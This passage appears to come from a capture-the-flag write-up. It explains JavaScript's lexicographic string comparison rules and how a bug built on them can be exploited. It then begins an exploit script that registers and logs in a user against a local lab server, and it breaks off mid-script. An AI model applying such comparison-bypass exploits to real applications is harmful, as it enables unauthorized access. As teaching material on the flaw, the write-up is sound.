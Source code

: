 

Now, here’s where it gets interesting!

If you look at the above, you can see that comments **1**, **2**, and **3** (these are not in the source code but are for demonstrative purposes) highlight how we are comparing two strings (1, 2) via a **lexicographical comparison** (3).

First, let’s learn a bit about Lexical String Comparison — at least what’s relevant here:

**JavaScript Rules for Lexical String Comparison:**

When you compare strings in JavaScript using `<`, `>`, `<=`, `>=`:

1. JavaScript does not parse the string as a number, even if it _looks_ like a number (e.g., `"100"` or `"+5"`).
    
2. It compares strings character by character from left to right using their **Unicode code points** (i.e., `.charCodeAt()`).
    
3. The first position where the characters differ determines the result.
    
4. If all characters match up to the length of the shorter string, then the shorter string is considered less than the longer one.

Example 

```JS
'+100' < '1' // true
```

This is true because `'+'` (Unicode 43) is less than `'1'` (Unicode 49) — **Rule 3** applies here.

```JS
'a100' < '1' // false
```

`'a'` (Unicode 97) is greater than `'1'` (Unicode 49) — again Rule 3.

```JS
'100000' < 'z' // true
```

`'1'` (Unicode 49) is less than `'z'` (Unicode 122) — Rule 3 again.


Now, I bet you see what we’re going to do:

```JS
import WebSocket from "ws";

const FLAG_SECRET_ID = "13371337-1337-1337-1337-133713371337";  

const username = "diet";
const password = "coke";

// Register the user
await fetch(`http://localhost:3000/api/register`, {
	method: "POST",
	headers: { "Content-Type": "application/json" },
	body: JSON.stringify({ username, password }),
});

console.log("user", username, "password", password);

// Log in the user
const loginResponse = await fetch(`http://localhost:3000/api/login`, {
	method: "POST",
	headers: { "Content-Type": "application/json" },
	body: JSON.stringify({ username, password }),
});

if (!loginResponse.ok) {
	console.error("Login failed:", loginResponse.status, await loginResponse.text());
```